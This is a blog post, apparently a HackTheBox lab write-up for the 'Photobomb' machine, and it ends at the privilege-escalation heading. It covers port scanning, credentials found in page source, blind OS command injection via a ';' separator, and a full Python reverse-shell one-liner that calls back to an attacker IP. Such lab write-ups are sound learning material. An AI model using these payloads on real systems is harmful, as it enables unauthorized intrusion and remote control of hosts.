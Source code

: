```yaml
---
date: 2023-02-10 17:32:03
layout: post
title: HackTheBox - Photobomb

description: 
image: /assets/img/htb/photobomb/info.png
optimized_image: /assets/img/htb/photobomb/info.png
category: blog
tags:
  - hackthebox
  - Photobomb
  - web vulnerabilites
  - htb
  - command injection
  - basics privilege escalation
---
```


# Machine Information
This machine is from easy level worth 20 points.

IP: `10.10.11.182`

# Scanning and Enumeration
First thing add ip to to `/etc/hosts` file to allow any dns records.

```bash
nano /etc/hosts
```
Use `nano` to open this file and put ip.

![image](/assets/img/htb/photobomb/nano1.png)

Naturally, we will use `nmap` to identify open ports and collect some information about that machine.

```bash
nmap -A -T5 -p- 10.10.11.182
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-03 00:57 EST
Warning: 10.10.11.182 giving up on port because retransmission cap hit (2).
Stats: 0:01:44 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
Nmap scan report for 10.10.11.182
Host is up (0.094s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   92.39 ms 10.10.14.1
2   91.01 ms 10.10.11.182

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 372.55 seconds
```

After scanning, I found ports 22 and 80 open, so I'll go to Website and dig deeper.

![image](/assets/img/htb/photobomb/website.png)

When you press on `Click here`, a window pops up asking you to enter your username and password.

I'm trying to bypass that popup with basic auth techniques like sql injection, default credentials (admin: admin), nosql, etc.. but all of them didn't work.

After that, I thought that I would see a source code, and I actually found the credentials.

![image](/assets/img/htb/photobomb/source.png)

Use this credentials `pH0t0:b0Mb!` to bypass that popup.

![image](/assets/img/htb/photobomb/pass.png)

After logging in, I only found a download function, and now I'm going to test it.

![image](/assets/img/htb/photobomb/download.png)

Capture the request by burp, Send to repeater and Play in parameters.

The first thing that came to my mind after seeing a request is to try to test the `OS Command Injection` vulnerability in all parameters to find out which parameter is at vulnerable.

The vulnerable parameter is the file type you specified with that payload `; ping -c 10 10.10.11.182` and the result was waiting for the response for about 10 millis to know that this parameter was vulnerable to a `blind OS Command Injection` vulnerability.

I've tried using a number of characters as command separators like `| , || , &` , but only those that have succeeded `;` .

![image](/assets/img/htb/photobomb/burp.png)

Use command injection to get reverse shell.

I tried several payloads but only the [python-reverse-shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/) worked.

```py
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Put that payload in that vulnerable parameter.

![image](/assets/img/htb/photobomb/payload.png)

Listen by netcat.

![image](/assets/img/htb/photobomb/nc.png)

Bingoo, I got the user flag.

![image](/assets/img/htb/photobomb/user.png)

# Privilege Escalation

